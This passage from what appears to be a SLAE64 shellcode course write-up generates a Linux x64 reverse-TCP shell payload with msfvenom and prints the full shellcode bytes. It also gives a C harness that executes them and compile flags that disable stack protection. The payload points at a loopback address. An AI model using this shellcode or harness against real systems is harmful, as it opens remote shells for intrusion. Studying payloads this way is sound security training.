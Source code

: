 So the following command utilizes the `shell_reverse_tcp` payload and outputs the shellcode in `C` format.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.1.1.1 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of c file: 338 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\x7f\x01\x01\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";
```

Now we can paste the extracted shellcode in the file `shellcode.c`. So, the whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x48\xb9\x02\x00\x11\x5c\x7f\x01\x01\x01\x51\x48\x89\xe6"
"\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce"
"\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48"
"\x89\xe6\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
	
	ret(); 
}
```

Now we need to compile the program:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

In order to verify that the payload is working we must execute `shellcode`. Before that, we create a listener with `nc` on port `4444`.
